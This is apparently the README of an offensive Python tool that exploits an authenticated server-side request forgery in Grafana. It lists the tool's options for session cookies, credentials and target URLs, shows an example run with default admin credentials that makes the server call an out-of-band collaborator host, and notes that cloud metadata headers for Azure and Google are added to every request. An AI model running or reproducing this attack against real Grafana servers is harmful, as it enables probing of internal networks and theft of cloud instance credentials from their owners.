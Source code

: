 # grafana-ssrf
Authenticated SSRF in Grafana.

Usage
---


```
usage: grafana.py [-h] [-s SESSION] [-u URL] [-H HOST] [-f FILE] [-U USERNAME]
                  [-P PASSWORD]

optional arguments:
  -h, --help            show this help message and exit
  -s SESSION, --session SESSION
                        Session Cookie Value
  -u URL, --url URL     URL of host to check will need http or https
  -H HOST, --host HOST  Host for Grafana
  -f FILE, --file FILE  File of URLS to check SSRF Against
  -U USERNAME, --username USERNAME
                        Username for Grafana
  -P PASSWORD, --password PASSWORD
                        Password for Grafana
```

Example
---

```
python3 grafana.py -U admin -P admin -H http://localhost:3000 -u http://8t2s8yx5gh5nw0z9bd3atkoprgx6lv.burpcollaborator.net
Refreshed Sources
SSRF Source Updated
Status code:   200
Response body: <html><body>c7yzzb4zyj5v14wkpi2nxvzjigz</body></html>
Deleted Old SSRF Source
```

Notes
---

* Azure metadata header has been added to all SSRFS
* Google metadata header has been added to all SSRFS
* SSRF will not follow redirects no matter what so ensure url is direct.
